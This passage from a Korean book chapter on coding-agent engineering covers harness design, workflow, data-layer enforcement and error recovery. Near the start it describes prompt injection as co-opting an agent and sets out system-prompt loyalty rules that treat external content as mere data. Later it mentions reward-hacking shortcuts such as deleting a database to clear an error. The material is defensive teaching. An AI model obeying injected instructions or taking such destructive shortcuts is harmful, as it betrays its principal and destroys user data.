이는 코딩 에이전트와 특히 밀접하다. 저장소에서 읽은 신뢰할 수 없는 콘텐츠, 도구가 반환한 출력, 제3자 MCP 서버가 보낸 지시는 모두 에이전트를 포섭하려는 “상대”다. **프롬프트 인젝션은 본질적으로 에이전트를 포섭하려는 시도다**(2장과 4장). 따라서 하네스는 에이전트가 누구에게 충성하는지 명시적으로 고정해야 한다. 위임자의 지시는 가장 높은 우선순위를 가지며, 외부 당사자에게서 온 모든 내용은 기본적으로 “참고할 수 있지만 지시로서 효력은 없는 데이터”로 격하한다. 효과적인 **충성 행동 강령**을 시스템 프롬프트에 다음과 같이 담을 수 있다. 위임자의 비공개 정보는 그 존재 자체까지 보호한다. 거부할 때는 보호 대상의 세부 사항을 열거하지 않는다. 열거 자체가 정보를 유출할 수 있기 때문이다. 비공개 최저선은 공개 입장이 아니다. 위임자가 명확하고 구체적으로 내린 지시만 실행한다. 반복되는 압박에 굴복하지 않는다. 본질적으로 하네스를 사용해 모델에 기본적으로 없는 입장을 부여하는 것이다. **위임자에게 절대적으로 충성하고 외부 당사자를 경계한다.**

[^ch5-1]: 이 충성도 스펙트럼과 행동 강령에 관한 전체 평가는 Li, Bojie and Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026에서 확인할 수 있다.

**AI가 작성한 코드 자체를 신뢰할 수 없을 때: 신뢰 경계 내리기.**

앞의 충성 행동 강령은 에이전트가 규칙을 지킬 **가능성을 높여** 주지만, 고위험 데이터 작업에서는 “가능성이 높다”만으로 부족하다. “에이전트가 올바르게 행동하기를 바라는 것”에서 데이터 계층의 강제 집행으로 제약을 내려야 한다. 더 근본적인 입장[^ch5-2]은 **애플리케이션 계층을 아예 신뢰할 수 없는 것으로 취급하고 데이터 불변 조건의 강제 집행을 그 아래로 내리는 것**이다. 지난 30년 동안 소프트웨어의 무결성 경계는 **애플리케이션 계층**에 있었다. 핸들러 코드가 각 작업을 누가 수행할 수 있고 어떤 값이 유효한지 결정했으며, 데이터베이스는 그 코드를 무조건 신뢰했다. 그러나 LLM이 생성한 핸들러는 사람이 당연히 넣었을 권한 및 무결성 검사를 빠뜨리는 경우가 많고, 자율 에이전트는 프로덕션 데이터를 직접 조작하므로 이 전제가 무너진다. 권한 내장 데이터 객체(Permission-Embedded Data Objects)라고 부를 수 있는 새로운 접근법에서는 각 데이터 엔터티가 **사람이 검토한 스키마** 안에 선언적 권한 규칙, 검증기, 결과 명세를 지니며, 런타임 파이프라인이 **모든 쓰기 작업**에서 이를 강제한다. 핵심 기본 요소는 모든 작업에 붙는 **접근 컨텍스트**다. 다시 생성된 핸들러는 자신이 서비스하는 사용자의 권한으로 실행하고, 자율 에이전트는 권한 범위가 제한된 자체 신원(scoped principal)으로 실행한다. 에이전트가 충성하기를 기대하는 데 그치지 않고 아키텍처 차원에서 제한된 주체로 취급하므로, 침해되더라도 권한을 넘어설 수 없다.

같은 프롬프트 집합으로 비교한 결과, 이 메커니즘에서는 **선언한 불변 조건을 위반한 쓰기 작업이 하나도 없었다.** 반면 가공하지 않은 SQL, LLM이 작성한 검사, 헌법형 프롬프트, 행동 경계 인터셉터는 각각 적게는 몇 건에서 많게는 수십 건의 위반을 허용했다. 이 방식은 “정답일 가능성이 더 높다”가 아니라 “오답이 불가능하다”를 실현하며, 쓰기 작업마다 약 2밀리초가 추가될 뿐이다. 물론 이 보장에는 조건이 있다. 스키마가 원하는 불변 조건을 실제로 모두 표현해야 하며, 배포 환경에서 신뢰할 수 없는 계층이 저장소를 우회해 데이터베이스에 직접 연결하는 모든 경로를 차단해야 한다. 코딩 에이전트에는 여기서 중요한 아키텍처 원칙이 나온다. **코드 작성자와 코드 실행자를 모두 신뢰할 수 없다면, 진정으로 신뢰할 수 있는 제약을 생성 코드 안에 둘 수 없으며 그 아래의 사람이 검토한 토대에 두어야 한다.** 이는 1장의 “지침보다 제약” 원칙을 데이터 계층에 적용한 궁극적인 형태다.

[^ch5-2]: “신뢰 경계를 애플리케이션 계층 아래로 내리는” 이 설계와 평가(여러 해법의 전체 위반 횟수 비교 포함)는 Li, Bojie. *The Application Layer Is No Longer Trusted: Enforcing Data Invariants Below AI-Written Code and AI Agents.* 2026(출간 예정)에서 확인할 수 있다.

### 코딩 에이전트의 전체 워크플로





다음은 **권장 엔지니어링 워크플로**다. 소프트웨어 엔지니어링의 모범 사례를 코딩 에이전트에 이상적으로 적용한 모습이다. Claude Code와 OpenClaw 같은 현실의 코딩 에이전트는 반응형 반복 루프에서 작업하는 경우가 더 많으며 **필요에 따라 이 워크플로를 줄인다.** 간단한 작업에서는 설계 문서를 생략하고 매 단계마다 사용자 승인을 기다리지 않는다. 복잡하고 영향 범위가 넓은 작업일 때만 모든 단계를 온전히 수행한다.

**프로젝트 문서화.**

코딩 에이전트의 작업은 프로젝트를 체계적으로 이해하는 데서 시작한다. 에이전트가 코드 저장소를 처음 접했을 때 가장 먼저 할 일은 코드를 수정하는 것이 아니라 프로젝트 전체를 이해할 인지적 틀을 세우는 것이다. 새 엔지니어가 첫날부터 코드를 푸시하지 않고 먼저 전반적인 상황을 익히는 것과 같다. 에이전트는 README, 아키텍처 설계 문서, 개발자 안내서 같은 프로젝트 문서가 있는지부터 확인한다.

핵심 문서가 없다면 에이전트는 무작정 작업을 시작해서는 안 된다. 코드베이스를 체계적으로 조사해 주요 모듈, 핵심 추상화, 구성 요소의 의존 관계를 파악하고, 아키텍처 개요, 디렉터리 안내서, 테스트 실행 지침의 초안을 작성해야 한다. 이 문서들은 에이전트의 후속 작업을 위한 설계도이자 다른 개발자를 위한 진입점이다. 여기에는 지식의 외재화가 효율적인 협업의 전제 조건이라는 핵심 원칙이 담겨 있다.

오늘날 프로젝트 문서에는 에이전트에 특화된 형태인 **프로젝트 지침 파일**이 있다. CLAUDE.md, AGENTS.md, .cursorrules 같은 파일은 사실상의 업계 표준이 되었다. 매 세션을 시작할 때 컨텍스트에 자동으로 주입되어 프로젝트 수준의 시스템 프롬프트 역할을 한다. 사람을 위한 README와 달리 지침 파일에는 에이전트의 행동 규칙을 담는다. 빌드 및 테스트 명령(“`pnpm test`를 사용하고 `npm test`는 사용하지 않는다”), 코드 스타일(“`any` 타입을 피한다”), 명확한 제한 구역(“`migrations/` 디렉터리를 수정하지 않는다”) 등이 이에 해당한다. 이는 OpenClaw의 `SOUL.md`(에이전트의 정체성과 행동 규칙을 정의한다)와 `MEMORY.md`(세션 간 경험을 축적한다)에 쓰인 발상을 서로 다른 수준에 적용한 것이다. SOUL.md가 “에이전트는 누구인가”를 정의한다면 프로젝트 지침 파일은 “이 프로젝트에서 어떻게 일하는가”를 정의한다. 2장의 컨텍스트 엔지니어링 관점에서 보면 지침 파일은 가장 경제적인 안정 접두부이기도 하다. 내용이 작업에 따라 바뀌지 않아 자연스럽게 KV 캐시에 유리하며, “지식은 코드베이스 자체에 존재해야 한다”는 원칙을 가장 직접적으로 구현한다.

지식 외재화 원칙에는 흥미로운 귀결도 있다. **원격 근무에 친화적인 팀은 대개 AI 에이전트에도 친화적이다.** 원격 팀은 비동기 커뮤니케이션과 문서화에 의존할 수밖에 없다. 의사결정을 문서에 기록하고, 컨텍스트를 이슈와 PR 설명에 남기며, 암묵지를 옆자리의 구두 전달이나 회의실 화이트보드가 아니라 개발자 안내서에 축적한다. 이는 에이전트가 이용할 수 있는 지식의 형태와 정확히 일치한다. 에이전트는 구두 합의를 읽을 수 없지만 설계 문서는 읽을 수 있다. 반대로 “옆자리 사람에게 물어보면 된다”는 방식으로 운영하는 팀은 에이전트에 새 원격 입사자와 똑같이 높은 온보딩 비용을 부과한다. 팀의 “AI 준비도”를 가늠하는 간단한 지표는 다음과 같다. 원격으로 합류한 사람이 코드 저장소와 문서만 가지고 독립적으로 일할 수 있는가?

**작업 이해와 요구 사항 명확화.**

알려진 버그를 수정하거나 함수의 매개변수를 조정하는 것처럼 경계가 명확하고 영향 범위가 제한적인 간단한 요구 사항이라면 에이전트는 곧바로 구현 단계로 넘어갈 수 있다. 그러나 소프트웨어 개발의 작업은 대부분 이렇게 단순하지 않다.

복잡한 요구 사항에는 더 신중하고 체계적으로 접근해야 한다. 복잡성은 여러 차원에서 생긴다. 요구 사항 자체가 모호할 수 있다. 즉, 사용자는 원하는 바를 알지만 정확히 표현하지 못할 수 있다. 구현 경로가 다양해 각각 장단점이 다른 여러 기술적 해법이 있을 수도 있다. 여러 모듈을 수정해야 해서 기존 기능이 깨질 가능성이 있는 등 영향 범위가 넓을 수도 있다. 에이전트는 탐색적 조사를 통해 경계를 명확히 하고, 필요하면 먼저 사용자와 대화해야 한다. 예를 들어 사용자가 “시스템 성능을 최적화하라”고 요청하면 먼저 구체적인 목표가 응답 시간 단축, 메모리 사용량 감소, 처리량 증가 중 무엇인지 확인해야 한다. 코드 복잡도 증가를 허용할 수 있는지 등 받아들일 수 있는 절충과 현재 병목이 있는 위치도 파악해야 한다. 요구 사항이 모호한 상태에서 코딩을 시작하면 상당한 재작업으로 이어지는 경우가 많다.

**설계 문서 작성.**

설계 문서는 추상적인 요구 사항을 구체적인 구현 계획으로 옮기는 다리다. 어떤 모듈을 왜 수정해야 하는가, 어떤 접근법을 선택하며 어떤 절충이 따르는가, 어떤 새 의존성이 필요한가, 변경이 시스템에 어떤 영향을 미칠 것으로 예상하는가라는 네 가지 핵심 질문에 답해야 한다. 설계 문서를 작성하는 행위 자체가 깊이 사고하는 과정이다. 코딩에 많은 노력을 들이기 전에 해법의 실현 가능성을 개념적으로 검증하도록 에이전트에 강제하기 때문이다. 더 중요한 점은 설계 문서가 사람이 효율적으로 개입할 지점을 제공한다는 것이다. 수백 줄의 코드를 검토하는 것보다 간결한 설계 문서를 검토하는 편이 훨씬 쉽다. 설계 문서를 완성한 에이전트는 사용자에게 검토를 요청하고, 승인을 받은 뒤 다음 단계로 진행해야 한다.

**코드 구현과 테스트.**

설계 승인을 받으면 에이전트는 프로젝트의 코드 규칙에 따라 구현하고, 기존 추상화와 도구를 재사용하며, 코드베이스의 건전성을 유지하는 데 필요하면 적절한 수준으로 리팩터링한다.

구현을 마치면 즉시 테스트 주도 품질 보증 단계로 들어간다. 새로 만들거나 수정한 기능의 테스트 케이스를 작성하고 정상 경로, 경계 조건, 오류 시나리오를 포괄한다. 테스트를 작성한 다음 테스트 스위트를 실행한다. 테스트가 실패하면 사용자에게 실패 사실만 보고해서는 안 된다. 원인을 분석하고 문제를 찾아 모든 테스트가 통과할 때까지 코드를 수정해야 한다. 이 “테스트-수정” 루프는 여러 번 반복될 수 있으며, 이러한 자기 교정 능력이 코딩 에이전트를 코드 생성기에서 신뢰할 수 있는 엔지니어링 비서로 끌어올린다. 반대로 코딩 에이전트가 가장 흔히 일을 대충 하는 방식은 이 단계를 통째로 건너뛰는 것이다. 테스트를 한 번도 실행하지 않은 채 코드를 작성하고 “작업 완료”라고 보고한다. 완료 기준을 “코드 작성”이 아니라 “테스트 통과”로 정의하는 것은 언제 안전하게 멈출지를 검증이 결정하게 한다는 루프 엔지니어링 원칙을 코딩에 적용한 사례다. 10장에서 이러한 “조기 종료” 문제를 체계적으로 다룬다.

모든 테스트가 통과해도 에이전트의 작업은 끝나지 않는다. 다음 단계는 코드 리뷰다. 에이전트는 자신이 생성한 코드를 비판적으로 검토한다. 읽기 쉽고 주석이 충분한가? 숨어 있는 성능 문제나 보안 취약점은 없는가? 프로젝트의 코드 스타일과 모범 사례를 따르는가? 코드를 직접 읽거나 린트 도구를 실행하거나 전용 코드 리뷰 하위 에이전트를 호출해 자체 리뷰할 수 있다. 리뷰에서 문제를 발견하면 결함 있는 코드를 사용자에게 전달하지 말고 수정 단계로 돌아가 고쳐야 한다.

**문서 동기화와 전달.**

새 모듈을 도입하거나 모듈 간 의존성을 변경하거나 핵심 추상화의 의미를 바꾸는 등 코드 변경에 아키텍처 변경이 포함된다면 에이전트는 아키텍처 문서도 그에 맞게 업데이트해야 한다. 낡은 문서는 미래의 개발자를 잘못된 방향으로 이끌기 때문에 문서가 없는 것보다 나쁘다. 에이전트는 중요한 변경이 있을 때마다 문서를 자동으로 업데이트해 프로젝트 지식 베이스의 무결성과 최신성을 유지하는 데 기여한다.

이 워크플로에는 행동에 앞서 계획하고, 전 과정에서 검증하며, 문서와 코드를 함께 발전시킨다는 소프트웨어 엔지니어링의 핵심 원칙이 담겨 있다.

### 코딩 에이전트의 하네스 엔지니어링 실전

1장에서는 하네스 엔지니어링 개념과 **에이전트 = 모델 + 하네스** 공식을 소개했다. 여기서 하네스는 핵심 공식의 컨텍스트와 도구뿐 아니라 제약, 검증, 교정 메커니즘도 포함한다. 이 다섯 요소가 함께 1장에서 정의한 하네스를 이룬다. 코딩 에이전트는 아마 하네스 엔지니어링의 효과가 가장 큰 영역일 것이다. 코드 작성은 모든 에이전트 작업 가운데 **검증하기 가장 쉬우며**, 제약, 검증, 교정에 기존 인프라를 모두 활용할 수 있기 때문이다. 이 절에서는 코딩 에이전트 시나리오의 구체적인 실천에 집중한다.

시스템의 안정적인 운영 여부는 모델의 성능보다 에이전트 주변에 구축한 인프라의 견고함에 더 크게 좌우되는 경우가 많다. 1장에서는 하네스를 **컨텍스트와 도구**(에이전트가 행동할 수 있게 한다), **제약, 검증, 교정**(에이전트가 안전하고 올바르게 행동하도록 돕는다)이라는 두 계층으로 나눴다. 코딩 에이전트 시나리오에서는 다음과 같은 구체적인 엔지니어링 구성 요소로 대응된다.

- **인수 기준선**: 무엇을 “완료”로 볼 것인가—테스트 스위트, 코드 제출 후 일련의 검사를 자동으로 실행하는 지속적 통합(CI) 파이프라인, 코드 리뷰 기준
- **실행 경계**: 에이전트가 건드릴 수 있는 것과 없는 것은 무엇인가—모듈 경계, 의존성 규칙, 권한 제어
- **피드백 신호**: 정확성을 자동으로 판단하는 수단—서식 오류와 잠재적 문제를 자동으로 찾는 코드 스타일 검사 도구인 린터(Linter)의 출력, 테스트 결과, 타입 검사 오류
- **롤백 메커니즘**: 문제가 생겼을 때 어떻게 복구하는가—Git 버전 관리, 샌드박스 격리, 스냅샷 롤백

**코딩 에이전트가 하네스 엔지니어링에 특히 적합한 이유.**

목표의 명확성, 검증의 자동화 수준이라는 두 차원에 따라 작업은 네 가지 상태로 나뉜다. 목표가 명확하고 결과를 자동으로 검증할 수 있는 영역에서는 에이전트가 뛰어난 성과를 낸다. 목표는 명확하지만 인수 여부를 여전히 사람이 직접 판단해야 한다면 처리량이 사람의 검토 속도에 제한된다. 자동 피드백이 있어도 목표가 모호하면 시스템은 잘못된 방향으로 효율적으로 달린다. 둘 다 없으면 에이전트의 효용이 낮다. 표 5-1은 이 네 상태를 보여 준다. 하네스의 목표는 가능한 한 많은 작업을 “명확한 목표 + 자동 검증” 사분면으로 옮기는 것이다.

표 5-1 작업 명확성과 검증 자동화의 네 사분면

| | 결과를 자동으로 검증할 수 있음 | 결과를 수동으로 검증해야 함 |
|---------|--------------------------------------------|------------------------------------------|
| **명확한 목표** | 최적 영역: 테스트 케이스가 있는 버그 수정 | 처리량 제한: 코드 리팩터링에 수동 검토가 필요함 |
| **모호한 목표** | 잘못된 방향으로 효율적으로 진행: 린터로 “코드 품질” 최적화 | 시작하기 어려움: “UI를 더 보기 좋게 만들어라” |

코드 작성 작업은 자연스럽게 “명확한 목표 + 자동 검증” 사분면에 놓인다. 테스트 스위트는 명확한 인수 기준을 제공하고, 린터와 타입 검사기는 즉각적인 자동 검증을 제공하며, Git은 완전한 버전 관리와 롤백 기능을 제공한다. 현재 모든 에이전트 유형 가운데 코딩 에이전트가 가장 성숙한 이유도 여기 있다. 코드 생성 모델이 특별히 강해서가 아니라 수십 년간 축적된 소프트웨어 엔지니어링 인프라가 자연스럽게 견고한 하네스를 이루기 때문이다.

**업계의 실천.**

하네스 실천에 관한 세 가지 사례 연구는 위 원칙을 뒷받침한다.

- **대규모 코드 마이그레이션 사례**(한 대형 기술 기업이 공개한 대규모 코드 마이그레이션 실천): 핵심은 모델의 성능이 아니라 하네스가 세 가지를 올바르게 해낸 데 있었다. 지식은 코드베이스 자체에 있어야 하고(에이전트가 볼 수 없는 것은 존재하지 않는 것과 같다), 제약은 문서에 적는 대신 린터와 CI에 코드로 구현하며, 검증과 교정을 엔드투엔드로 완전히 자동화해야 한다.
- **LangChain**: 시스템 프롬프트, 도구 미들웨어, 자체 검증 루프 등 하네스만 최적화해 벤치마크 작업 성능을 크게 높였다. 특히 “에이전트로 실패 궤적을 분석해 하네스를 개선하는” 방법론은 하네스 엔지니어링을 경험 기반에서 데이터 기반으로 전환했다는 점에서 주목할 만하다.
- **Anthropic**: 장기 작업을 두 역할로 나눈다. 초기화 에이전트는 큰 작업을 작업 목록으로 분해하고, 실행 에이전트는 단계별로 진행하면서 다음 라운드가 이어서 사용할 수 있도록 완성한 코드 파일과 업데이트한 작업 목록 같은 중간 결과를 남긴다. 이러한 분업은 장기 실행 에이전트가 “한 번에 너무 많은 일을 하려 하거나” “너무 일찍 완료했다고 선언하는” 문제를 해결한다.

**코딩 에이전트에서 범용 하네스 설계 원칙으로.**

코딩 에이전트의 하네스 실천에서는 모든 에이전트 시스템에 적용할 수 있는 설계 원칙이 나온다.

1. **지침보다 제약**: 코드로 강제할 수 있는 규칙은 문서에서 권고하는 데 그치지 말고 코드로 구현해야 한다. 린터 규칙, 타입 제약, CI 검사는 시스템 프롬프트의 “따라 주세요...”라는 지침보다 훨씬 가치가 크다. 전자는 “할 수 없음”을 뜻하지만 후자는 “하지 않기를 권함”에 불과하다.
2. **검증 자동화**: 수동 검토는 확장할 수 없는 병목이다. 사람의 노력을 더 투입하는 것보다 테스트 스위트, 코드 품질 검사, 행동 모니터링에 투자할 때 훨씬 높은 수익을 얻는다.
3. **피드백은 최대한 빠르고 구조화해야 한다**: 오류 메시지가 상세하고 오류 발생 시점에 가깝게 제공될수록 에이전트가 더 효율적으로 자신을 교정할 수 있다. 2장의 에이전트 상태 표시줄 기법인 상세 오류 메시지와 도구 호출 카운터가 이 원칙을 구현한다.
4. **롤백은 신뢰할 수 있어야 한다**: 에이전트는 안전망 안에서 작동할 때만 과감히 실험할 수 있다. Git 브랜치, 샌드박스 환경, 스냅샷 메커니즘은 어떤 오류든 되돌릴 수 있게 한다.

**제약의 더 깊은 목적: 과정 오류 방지.** 인수 기준선은 결과가 올바른지 통제하고, 실행 경계는 **과정**을 통제한다. 결과가 옳더라도 잘못된 방법을 정당화할 수는 없다. 데이터베이스 장애를 “고치기” 위해 데이터베이스를 삭제하고 다시 만들면 장애는 해결되지만 데이터가 사라진다. 컴파일 오류를 고치려고 코드를 모두 삭제하면 컴파일은 통과하지만 구현이 사라진다. 이런 파괴적인 지름길은 언제나 존재한다. 최종 평가 지표에 제한을 명시해도 에이전트는 이를 우회하는 방법을 찾는 경우가 많으며, 이는 에이전트 작업에서 나타나는 일상적인 보상 해킹(7장)이다. 따라서 프로덕션 하네스는 `rm -rf`, 프로덕션 데이터 삭제, 읽어 보지 않은 파일 덮어쓰기 같은 위험한 행동에 전용 검사와 승인 절차를 둔다. 이 장 보안 절의 의미 파싱과 4장의 사이드카 검토가 그 예다. 결과만이 아니라 **행동**을 제약하는 것이다. 7장의 검증된 페널티를 활용한 강화 학습(RLVP, Reinforcement Learning with Verified Penalty), 즉 “결과에는 보상하고 경로에는 페널티를 부과하는” 방식은 같은 질문에 학습 측면에서 답한다. 최종 결과의 보상뿐 아니라 경로에서 검증할 수 있는 위반에 페널티를 부과해 “파괴적인 수단을 쓰지 않는다”를 모델의 엔지니어링 상식으로 내재화한다. 기존 모델에서는 하네스 가드레일이 외부 제약이고, 학습 가능한 모델에서는 과정 페널티가 같은 제약을 내재화한다. 목표는 같다.

**도구 오케스트레이션: 장애 경계 제어.** 성숙한 코딩 에이전트는 병렬 도구 호출을 지원한다. 하네스 관점의 고유한 문제는 **장애가 전파되는 방식**이다. 도구 하나가 실패하면 어떤 호출을 중단하고 어떤 호출을 계속해야 할까? 원칙은 장애가 같은 병렬 호출 배치 안에서만 전파되고 상위 작업으로는 전파되지 않아야 한다는 것이다. 예를 들어 파일 세 개를 병렬로 읽을 때 파일 하나가 없으면 해당 호출만 실패해야 한다. 나머지 두 호출을 취소하거나 전체 작업을 중단해서는 안 된다. 이처럼 세밀한 장애 경계 제어는 “명령 하나가 실패하면 전체 작업을 중단하는” 취약한 패턴을 피한다. 병렬 호출, 스트리밍 파싱, 연쇄 중단의 구체적인 메커니즘은 이 장의 “구현 팁” 절에서 자세히 다룬다.

### 실패와 오류 복구

앞 절에서는 하네스 엔지니어링의 원칙과 구성 요소를 살펴봤다. 이 절에서는 엔지니어링 성숙도를 가장 크게 가르는 **실패와 오류 복구**를 깊이 다룬다. 1장의 제거 실험은 이 문제가 얼마나 심각할 수 있는지 보여 주었다. 도구 결과 피드백 하나만 빠져도 에이전트가 무한 루프에 갇힐 수 있으며, 실제 프로덕션 환경에서는 어떤 실험보다 훨씬 다양한 실패가 발생한다. 이 절에서는 프로덕션 하네스가 어떤 실패를 마주하는가, 이를 어떻게 감지하고 복구하는가, 언제 시스템을 종료해야 하는가라는 세 질문에 체계적으로 답한다.[^ch5-3]

[^ch5-3]: 이 절의 실패 분류 체계와 메커니즘 분석은 Claude Code 같은 프로덕션급 에이전트 구현의 소스 코드를 조사한 결과를 바탕으로 한다. 구체적인 구현은 버전에 따라 빠르게 발전하므로 여기서는 안정적인 엔지니어링 원칙만 추려 제시한다.

**실패 분류 체계: 네 계층.** 체계적으로 대응하기 위한 첫 단계는 분류다. 실패는 발생 위치에 따라 네 계층으로 나뉜다.

- **API 계층**: 속도 제한(HTTP 429), 서비스 과부하, 요청 시간 초과, 연결 끊김, 토큰 제한으로 잘린 출력이다. 이러한 실패는 작업 자체와 무관한 인프라 잡음이다.
- **도구 계층**: 환각으로 만들어 낸 호출(존재하지 않는 도구 호출), 잘못된 형식의 인수(도구의 입력 계약 위반), 실행 예외, 그리고 가장 위험한 유형인 모델이 호출을 바꾸지 않은 채 재시도하는 동안 도구가 같은 오류를 반복해서 반환하는 경우다.
- **컨텍스트 계층**: 컨텍스트 창 초과, 압축 실패, 궤적 구조 손상이다. 도구 호출에 대응하는 결과 메시지가 없는 경우가 그 예다.
- **제어 흐름 계층**: 진전 없이 같은 작업을 반복하는 무한 루프와, 오류로 시작된 복구 논리가 LLM을 호출했다가 다시 실패하면서 연쇄되는 죽음의 나선(death spiral)이다.

**감지: 먼저 분류하고 그다음 횟수를 센다.** 실패가 발생했을 때 가장 먼저 물을 질문은 “재시도해야 하는가?”가 아니라 “재시도가 도움이 되는가?”다. 속도 제한, 과부하, 네트워크 지터처럼 재시도할 수 있는 오류에는 재시도가 적절하다. 잘못된 인수, 권한 부족, 존재하지 않는 도구처럼 재시도할 수 없는 오류는 그대로 몇 번을 반복해도 같은 결과를 낸다. 입력이나 전략을 바꿔야 한다. 프로덕션 하네스는 모든 오류를 무조건 재시도하지 않고 오류 유형과 복구 전략의 대응 관계를 관리한다.

개별 오류뿐 아니라 **패턴**도 감지해야 한다. 첫째는 반복 호출 지문이다. “도구 이름 + 인수” 쌍을 해시하며, 같은 지문이 되풀이되면 진전 없는 루프라는 명확한 신호다. 1장의 제거 실험에서 에이전트가 같은 도구를 계속 호출한 것이 바로 이 패턴이다. 둘째는 연속 실패 카운터다. 각 복구 경로가 자체 카운터를 유지하며, 이는 뒤에서 다룰 회로 차단기의 근거가 된다.

세 번째 실패 유형은 아예 오류로 드러나지 않으므로 전용 **생존성과 무결성 모니터링**이 필요하다. 스트리밍 연결에서 가장 위험한 실패는 즉시 오류가 발생하는 연결 끊김이 아니라 조용한 멈춤이다. 연결은 유지되지만 연결된 수도관에서 물이 나오지 않듯 데이터 흐름이 멈춘다. SDK의 시간 제한은 전송 과정이 아니라 최초 연결에만 적용되는 경우가 많다. 따라서 프로덕션 에이전트에는 독립적인 유휴 감시기가 필요하다. 정해진 시간 동안 새 출력이 없으면 연결이 멈춘 것으로 판단하는 감시 타이머가 정지한 스트림을 종료하고 시간 초과 시 재시도를 시작한다. 여기서 일반 원칙이 나온다. **모든 장기 연결에는 연결 시간 제한뿐 아니라 생존 신호가 필요하다.** 무결성 모니터링은 궤적 구조를 대상으로 한다. 도구 호출과 짝을 이루는 결과 메시지가 없으면 구조 이상을 모델이나 사용자에게 그대로 던지지 않고 컨텍스트를 주입하기 전에 시스템이 짝을 복구한다. 주목할 만한 엔지니어링 세부 사항도 있다. 일부 프로덕션 에이전트는 프로덕션 모드와 학습 데이터 수집 모드를 함께 운영한다. 프로덕션 모드에서는 누락된 메시지를 자리표시자로 보완할 수 있지만, 학습 모드에서는 합성 자리표시자가 학습 데이터를 오염시키므로 복구를 거부한다. 이러한 “프로덕션에서는 관대하게, 학습에서는 엄격하게”라는 이중 기준은 하네스와 모델 학습이 긴밀하게 결합되어 있음을 보여 준다.

**복구: 사용자에게 더 많이 드러나는 단계로 점차 상향한다.** 복구 조치는 사용자에게 보이는 정도에 따라 단계가 나뉜다. 낮은 단계에서 문제가 해결되면 상향하지 않는다.

1. **조용한 재시도.** 재시도할 수 있는 오류의 기본 조치다. 재시도의 성공 여부는 두 가지 세부 사항에 달려 있다. 첫째, 서버가 제안한 대기 시간을 지키면서 무작위 지터를 포함한 지수 백오프를 사용한다. 수많은 클라이언트가 동시에 재시도해 2차 정체를 일으키는 일을 막는다. 둘째, 포그라운드 호출과 백그라운드 호출을 구분한다. 메인 루프 요청이 실패하면 재시도하지만 제목 생성이나 입력 제안 같은 보조 백그라운드 호출은 실패 시 버린다. 백그라운드 재시도가 메인 루프의 할당량을 잠식해 “재시도 증폭”을 일으키지 않게 한다.
2. **기능을 낮추고 계속하기.** 재시도가 실패하면 요청 자체를 바꿔 다시 시도한다. 길이 제한으로 생성이 끊기는 출력 잘림을 예로 들어 보자. 먼저 출력 상한을 높여 조용히 다시 요청한다. 그래도 부족하면 메시지 끝에 메타 지시를 덧붙여 모델이 끊긴 지점부터 생성을 이어 가게 한다. 주 모델의 과부하가 지속되면 다른 모델로 대체한다. 새 모델이 기록을 파싱할 수 있도록 이전 모델의 기록에서 전용 서식 블록을 먼저 제거한다. 고비용 모드가 속도 제한에 걸리면 일시적으로 표준 모드로 대체한다.
3. **사용자에게 알리기.** 모든 자동 수단을 소진한 뒤에만 이미 시도한 복구 조치와 함께 오류를 보여 준다.

도구 계층 오류는 다른 경로를 따른다. **세션을 종료하지 말고 오류를 모델 입력으로 바꾼다.** 환각으로 만들어 낸 호출에는 구조화된 “그런 도구가 없음” 오류 결과를 반환한다. 검증 실패에는 입력 계약에 관한 힌트를 붙인 오류를 반환한다. 객체가 필요한 곳에 문자열을 출력하는 등 형식이 잘못된 인수는 실행 전에 프로그램으로 복구한다. 이러한 오류는 일반적인 도구 결과로 컨텍스트에 들어가며, 다음 차례에 모델이 스스로 교정한다. 이는 앞서 살펴본 “피드백은 구조화할수록 좋다”는 원칙의 적용이다. 피드백으로 제공하는 오류가 구체적일수록 모델의 자기 교정률이 높아진다.

이 절의 핵심 원칙은 **오류 처리의 단위가 개별 요청이 아니라 전체 복구 루프**라는 것이다. 복구가 불가능하다고 확인하기 전까지는 중간 오류를 사용자든 이벤트를 구독하는 하위 시스템이든 소비자에게 노출해서는 안 된다. 복구 중에는 오류 메시지를 보류한다. 복구에 성공하면 소비자는 오류를 전혀 알아차리지 못하고, 모든 수단이 실패했을 때만 보류한 오류를 공개한다. 이는 “복구 불가능이 확인될 때까지 중간 상태를 노출하지 않는다”라는 1장의 교정 원칙을 엔지니어링으로 구현한 것이다.

**종료: 모든 복구 경로에는 상한이 필요하다.** 복구 메커니즘 자체도 실패할 수 있으므로 각 경로에 명시적인 재시도 상한을 두어야 한다. 컨텍스트 압축은 여러 번 연속으로 실패하면 포기하고, 권한 분류기는 반복 실패하면 사람에게 질문하는 방식으로 전환하며, 출력 이어 쓰기는 정해진 횟수까지만 시도한다. 임계값은 어디서 나올까? 추측이 아니라 프로덕션 데이터에서 나온다. Claude Code의 압축 회로 차단기를 예로 들어 보자. “3회 연속 실패”라는 임계값은 실제 세션 통계를 바탕으로 한다. 어느 세션은 바로 이 복구 경로에서 3천 번 넘게 연속으로 실패했으며, 이런 무의미한 재시도만으로 전 세계에서 하루 약 25만 번의 API 호출을 낭비했다. 50회 이상 연속 실패한 세션도 천 개가 넘었다. 세 번은 “대부분의 실패가 이 전에 복구된다”와 “더 재시도해도 사실상 희망이 없다”를 가르는 경험적 변곡점이다.

